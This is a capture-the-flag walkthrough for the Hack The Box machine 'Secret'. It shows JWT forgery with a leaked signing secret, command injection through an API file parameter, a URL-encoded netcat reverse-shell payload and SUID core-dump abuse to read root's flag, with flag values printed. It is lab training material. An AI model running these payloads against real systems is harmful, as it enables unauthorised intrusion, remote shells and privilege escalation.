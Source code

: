 # SECRET - 10.10.11.120

## NMAP scan:

```
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.18.0 (Ubuntu)
3000/tcp open  http    syn-ack Node.js (Express middleware)
```

## Web Enumeration

Got the source code of this website from: https://github.com/z9fr/auth-api

Got possible username of the admin: 'theadmin'.
Found /api with various endpoints like:

```
/user/login
/user/register
/priv
/logs/
```

The backend creates a JWT token of the input credentials while registering.

Registered a new account by:

```
curl -X POST -H 'Content-Type: application/json' -v http://secret.htb/api/user/register --data '{"name": "supresh","email": "sup@resh.com","password": "supresh"}'
```

To login:

```
curl -X POST -H 'Content-Type: application/json' -v http://secret.htb/api/user/register --data '{"name": "oopsie","email": "sup@resh.com","password": "supresh"}'
```

From source code found that it only checks if the name is 'theadmin' for admin.
So to tamper the JWT token, I used jwt_tool(https://github.com/ticarpi/jwt_tool).

```
python /opt/Git/jwt_tool/jwt_tool.py -I -S hs256 -pc 'name' -pv 'theadmin' -p 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE' eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTdlMjgxZWU2N2QzZTA4NTMzOGEzZjYiLCJuYW1lIjoib29wc2llIiwiZW1haWwiOiJvb3BzaWVAb29wcy5jb20iLCJpYXQiOjE2MzU2NTc4NTd9.7v-DST155DL_5yuhC9Zbe2rdyPiGCcd8aeYUucQLVzU
```

It gave the tampered JWT token.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTdlMjgxZWU2N2QzZTA4NTMzOGEzZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im9vcHNpZUBvb3BzLmNvbSIsImlhdCI6MTYzNTY1Nzg1N30.atZrtL6UzhLQNDANrsNWeiv9wt4dzdYeOLaiGeNahcw
```

So to check if we are admin:

```
curl http://secret.htb/api/priv -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTdlMjgxZWU2N2QzZTA4NTMzOGEzZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im9vcHNpZUBvb3BzLmNvbSIsImlhdCI6MTYzNTY1Nzg1N30.atZrtL6UzhLQNDANrsNWeiv9wt4dzdYeOLaiGeNahcw'

Output: {"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```

So we have succecfully got JWT of admin.

There was a /api/logs which takes a file arguement.

```
curl 'http://secret.htb/api/logs?file=/etc/passwd' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTdlMjgxZWU2N2QzZTA4NTMzOGEzZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im9vcHNpZUBvb3BzLmNvbSIsImlhdCI6MTYzNTY1Nzg1N30.atZrtL6UzhLQNDANrsNWeiv9wt4dzdYeOLaiGeNahcw'

Output: {"killed":false,"code":128,"signal":null,"cmd":"git log --oneline /etc/passwd"}
```

## User.txt

```
curl 'http://secret.htb/api/logs?file=;id' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTdlMjgxZWU2N2QzZTA4NTMzOGEzZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im9vcHNpZUBvb3BzLmNvbSIsImlhdCI6MTYzNTY1Nzg1N30.atZrtL6UzhLQNDANrsNWeiv9wt4dzdYeOLaiGeNahcw'
"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nuid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```

We succesfully ran command on the server.

To get reverse shell:

```
curl 'http://secret.htb/api/logs?file=;rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+<IP>+<PORT>+%3E%2Ftmp%2Ff%0A%0A' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTdlMjgxZWU2N2QzZTA4NTMzOGEzZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im9vcHNpZUBvb3BzLmNvbSIsImlhdCI6MTYzNTY1Nzg1N30.atZrtL6UzhLQNDANrsNWeiv9wt4dzdYeOLaiGeNahcw'
```

Got the reverse shell.

```
user.txt: 0ba6627a048d36e7defa8c51d276cf66
```

## Root.txt

Found a file with s bit on.

```
find / -type f -perm -u=s 2>/dev/null

...
/opt/count
...
```

Three files in /opt/

```
code.c
count
valgrind.log
```

The count application takes path of a file and asks if to save the data or not.

Looking at the source code the write functionality looks intresting but the problem is that we cannot write in privilleged mode and not the content of file so there is no possible way we can write something to high-privileged file or see the content of higher privileged file.

The catch over here is that what if we crash the code in between the execution of the code.
Most of the time if we crash the process in between the report is most of the time saved in /var/crash in linux distro.
Normally this won't be possible but with this perm set prctl(PR_SET_DUMPABLE, 1); it could be possible.

### Shell 1

```
./opt/count -p
/root/root.txt
y
```

### Shell 2

```
ps -aux | grep count
```

Kill the process with PID of ./opt/count -p

```
kill -BUS <PID>
```

Now since the process is crashed, logs will be saved inside /var/crash

```
dasith@secret:/opt$ cd /var/crash
dasith@secret:/opt$ ls -al
total 88
drwxrwxrwt  2 root   root    4096 Oct 31 13:24 .
drwxr-xr-x 14 root   root    4096 Aug 13 05:12 ..
-rw-r-----  1 root   root   27203 Oct  6 18:01 _opt_count.0.crash
-rw-r-----  1 dasith dasith 28127 Oct 31 13:24 _opt_count.1000.crash
-rw-r-----  1 root   root   24048 Oct  5 14:24 _opt_countzz.0.crash
```

Now make a temporary directory, I made /tmp/supresh

Now to unpack the logs:

```
apport-unpack _opt_count.1000.crash /tmp/supresh
```

Now go to the /tmp/supresh

We got CoreDump. Now lets get data from the coredump by:

```
strings CodeDump

...
root/root.txt
9b2bc596dedc67f00957ac88a6697daa
```

Got the root.txt

```
9b2bc596dedc67f00957ac88a6697daa
```
